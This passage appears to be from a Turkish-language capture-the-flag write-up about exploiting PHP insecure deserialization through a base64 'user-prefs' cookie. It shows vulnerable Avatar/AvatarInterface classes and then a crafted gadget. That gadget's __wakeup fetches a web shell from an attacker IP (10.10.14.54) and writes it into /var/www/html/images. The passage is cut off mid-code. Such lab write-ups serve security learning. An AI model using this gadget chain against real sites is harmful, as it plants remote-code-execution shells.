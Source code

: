 ```php
}
```

Bu fonksiyon kullanıcının tercih ettiği temayı ayarlamak için kullanılır. Kullanıcı oturum açmışsa tercihlerinin bulunduğu `user-prefs` adında base64 ile kodlanmış bir cookie değeri alır. Kullanıcı zaten bu cookie bilgisine sahipse base64 kod çözülür ve tercih edilen tema değeri döndürülür. 

Dosyanın altına doğru bir Avatar sınıfı var.

```php
class Avatar {
    public $imgPath;

    public function __construct($imgPath) {
        $this->imgPath = $imgPath;
    }

    public function save($tmp) {
        $f = fopen($this->imgPath, "w");
        fwrite($f, file_get_contents($tmp));
        fclose($f);
    }
}

class AvatarInterface {
    public $tmp;
    public $imgPath; 

    public function __wakeup() {
        $a = new Avatar($this->imgPath);
        $a->save($this->tmp);
    }
}
?>
```

Avatar class, kullanıcının avatarını önce geçici olarak belirlemesine ve sonrasında kalıcı olarak kaydetmesini sağlar. Nesne unserialize edildiğinde `__wakeup()` magic methodu çağrılır ve avatar nesnesi oluşturulur. Ardından kaydedilir.

`$tmp` ve `$imgPath` değerlerini değiştireceğim. Sonrasında serialize ederek base64 ile kodlayacağım.

`file_get_contents` fonksiyonu `$tmp` değerini alır. Buraya bir web shell eklemeye çalışacağım.

```php
<?php
class Avatar {
    public $imgPath; 

    public function __construct($imgPath) {
        $this->imgPath = $imgPath;
    }

    public function save($tmp) {
        $f = fopen($this->imgPath, "w");
        fwrite($f, file_get_contents($tmp));
        fclose($f);
    }
}

class AvatarInterface {
    public $tmp = "http://10.10.14.54/phpcmd.php";
    public $imgPath = "/var/www/html/images/phpcmd.php";

    public function __wakeup() {
        $a = new Avatar($this->imgPath);
```
